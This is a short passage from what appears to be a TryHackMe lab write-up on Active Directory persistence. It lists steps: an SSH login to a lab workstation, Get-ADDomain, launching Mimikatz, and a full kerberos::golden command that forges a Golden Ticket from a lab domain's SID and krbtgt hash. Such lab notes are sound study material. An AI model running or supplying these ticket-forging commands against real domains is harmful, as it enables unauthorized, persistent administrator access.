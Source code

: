 		```
		ssh ruth.dale@za.tryhackme.loc@thmwrk1.za.tryhackme.loc
		```

		![task3-ssh](./images/task3-ssh.png)

	* Run powershell & `Get-ADDomain`
	
		![task3-getad](./images/task3-getad.png)

	* Run Mimikatz
	
		```
		C:\Tools\mimikatz_trunk\x64\mimikatz.exe
		```

	* Run Script for Golden Ticket
		
		```
		kerberos::golden /admin:ReallyNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:S-1-5-21-3885271727-2693558621-2658995185 /krbtgt:16f9af38fca3ada405386b3b57366082 /endin:600 /renewmax:10080 /ptt
		```
